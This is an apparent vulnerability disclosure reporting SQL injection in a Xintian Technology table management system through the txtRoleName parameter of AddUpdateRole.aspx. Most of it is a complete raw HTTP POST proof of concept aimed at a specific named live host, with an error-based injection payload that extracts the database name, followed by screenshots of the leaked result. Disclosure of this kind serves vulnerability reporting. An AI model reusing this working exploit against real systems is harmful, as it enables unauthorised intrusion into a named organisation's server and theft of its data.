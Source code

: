 SQL injection vulnerability exists in the smart table integrated management system of Xintian Technology Co., LTD

Loophole file: / / SysManage AddUpdateRole. Aspx

Vulnerability parameter: txtRoleName

POC
```
POC
POST /SysManage/AddUpdateRole.aspx HTTP/1.1
Host: pay.gtswjt.com:10001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 763
Origin: http://pay.gtswjt.com:10001
Connection: close
Referer: http://pay.gtswjt.com:10001/SysManage/AddUpdateRole.aspx
Cookie: 
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 127.0.0.1

__LASTFOCUS=&__VIEWSTATE=SfVnjbEBer5WV3uPNII7yl%2FeDSCOs6TNGH9bS6scS3gUhGokqER9q7RhHsHmD4QOuzAZVHgUL7d2dTPqlTTiRnwYEjMJxl%2F%2BibmKelDEuT4n%2FnMkhYoGb8Y%2B4b1t%2BjVrZtfSFFPUIOYhejR8RYwpK13i694CviSYMfbb39jIpiEvX07xlBeDyhdSUVWs%2FpNLrUzfzf11qaMVoL0u&__VIEWSTATEGENERATOR=7CD9219B&__EVENTTARGET=&__EVENTARGUMENT=&__EVENTVALIDATION=NWPhrpN0buUJNs3bCgOo1a8sHescROHA%2FXNfeEjx4lsQg5D2uCYkiCXgkz1nizgl5l6cfhj8Q%2BroQUz7I4y0iO%2Bd%2FSLx7%2FYKo9cUFhzL6Xpz%2BnDCMF9GWPBt%2BlJRk317JZRUbJeSULOt7eyim9N7ZDST2UYBxCjyYBEf9OrQ9W7nRnc5imHcEtyw9zaurztJqJfS9gZFWVjoWro%2BjXDIvouDYsz49JgITm4L3RGRMGzffs0Xh5Q0lrf3KFDc1s99hN6GmslySpUuFmqG1fIyAq9XOiAOCX8IW935cPUIobIXtenYk9Y40kAfVEc%3D&txtRoleName=2' and 1=convert(int,db_name()) and '1'='1&ddlPriority=1&TbxRemark=&btnSave=%B1%A3%B4%E6
```

Click jump, error to get the database name

![WPS图片(3)](https://github.com/wpay65249519/cve/assets/142558438/7602cebf-30e8-4a77-8120-20e37663f4d2)

The database name is SunWirelessDB

![WPS图片(4)](https://github.com/wpay65249519/cve/assets/142558438/31acff5b-ad25-4dca-a1c1-f582adf0dfe3)
